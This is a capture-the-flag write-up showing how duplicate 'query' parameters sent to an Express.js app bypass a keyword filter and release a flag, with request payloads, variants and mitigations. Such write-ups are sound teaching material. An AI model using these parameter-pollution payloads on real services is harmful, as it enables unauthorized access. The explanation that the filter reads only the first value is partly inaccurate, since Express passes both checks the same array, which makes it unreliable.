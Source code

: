 # Baby Web CTF Challenge Writeup

**Category:** Web  

## Challenge Description

Enter the right key and retrieve the flag? Sound easy right?

## Initial Analysis

Upon accessing the challenge, we're presented with a simple web interface titled "Flag Vault" that asks us to enter an exact key to unlock the flag.

Let's examine the provided source code:

```javascript
const express = require('express');
const bodyParser = require('body-parser');
const app = express();
const port = 10009;

app.use(bodyParser.urlencoded({ extended: true }));

const key = "randomBytes(16).toString('hex')";

// ... HTML page code ...

app.post('/search', (req, res) => {
  const query = req.body.query;
  
  // Filter check
  if (query.includes("String")) {
    return res.send(htmlPage("❌ Access Denied: Suspicious pattern detected."));
  }
  
  // Key check
  if (query.includes(key)) {
    return res.send(htmlPage("✅ Key matched: " + query + "\n🎉 Here is your flag: fakeflag{...}"));
  } else {
    return res.send(htmlPage("❌ Key did not match."));
  }
});
```

## Vulnerability Analysis

### The Logical Impossibility

After analyzing the code, we immediately notice a critical design flaw:

1. **The key is defined as:** `"randomBytes(16).toString('hex')"`
2. **The filter blocks any input containing:** `"String"`
3. **However, the key itself contains:** `toString` which contains `String`

This creates an **impossible condition** - we cannot enter the correct key without triggering the security filter!

### The Real Vulnerability: HTTP Parameter Pollution

The vulnerability lies in how Express.js with `bodyParser.urlencoded()` handles duplicate parameter names. When multiple parameters share the same name, Express.js behavior can be inconsistent.

## Exploitation

### Understanding Parameter Pollution

When we send a request like:
```
query=value1&query=value2
```

Express.js might handle this in different ways:
- `req.body.query` becomes an array: `["value1", "value2"]`
- Takes the last value: `"value2"`
- Takes the first value: `"value1"`

The key insight is that the filter check and key check might process these parameters **differently**.

### The Attack Strategy

We can exploit this inconsistency by sending:
1. **First parameter:** A "safe" value that doesn't contain "String"
2. **Second parameter:** The actual key that matches our target

### Proof of Concept

Using Burp Suite, we intercept the POST request and modify the request body:

**Original request:**
```http
POST /search HTTP/1.1
Content-Type: application/x-www-form-urlencoded

query=randomBytes%2816%29.toString%28%27hex%27%29
```

**Modified request:**
```http
POST /search HTTP/1.1
Content-Type: application/x-www-form-urlencoded

query=safe&query=randomBytes%2816%29.toString%28%27hex%27%29
```

### How the Exploit Works

1. **Filter Check:** `if (query.includes("String"))`
   - Processes the first parameter: `"safe"`
   - Since "safe" doesn't contain "String", the filter passes ✅

2. **Key Check:** `if (query.includes(key))`
   - Processes the second parameter or the entire array
   - Finds the key `"randomBytes(16).toString('hex')"` and matches ✅

## Alternative Exploitation Methods

Several variations of this attack can work:

1. **Empty first parameter:**
   ```
   query=&query=randomBytes%2816%29.toString%28%27hex%27%29
   ```

2. **Array notation:**
   ```
   query[]=safe&query[]=randomBytes%2816%29.toString%28%27hex%27%29
   ```

3. **Multiple parameters:**
   ```
   query=test&query=dummy&query=randomBytes%2816%29.toString%28%27hex%27%29
   ```

## Solution

1. Intercept the POST request using Burp Suite or similar proxy
2. Modify the request body to include parameter pollution:
   ```
   query=safe&query=randomBytes%2816%29.toString%28%27hex%27%29
   ```
3. Forward the request
4. Receive the flag in the response
![Screenshot 2025-06-27 223040](https://github.com/user-attachments/assets/575b3648-4837-4604-ba22-fb889fe117e0)

## Key Takeaways

- **Poor Input Validation:** The developer created a logically impossible condition
- **Parameter Pollution:** Express.js can handle duplicate parameters inconsistently
- **Defense:** Always validate input consistently and avoid contradictory security checks
- **Lesson:** Security filters should be thoroughly tested for edge cases and bypass techniques

## Mitigation

To fix this vulnerability:

1. **Use strict equality instead of `.includes()`:**
   ```javascript
   if (query === key) { // Exact match only
   ```

2. **Consistent parameter handling:**
   ```javascript
   // Ensure query is always a string
   const query = Array.isArray(req.body.query) ? req.body.query[0] : req.body.query;
   ```

3. **Proper key generation:**
   ```javascript
   // Actually generate a random key instead of using a string literal
   const crypto = require('crypto');
   const key = crypto.randomBytes(16).toString('hex');
   ```

This challenge demonstrates how subtle implementation details can create significant security vulnerabilities, especially when dealing with HTTP parameter parsing in web frameworks.
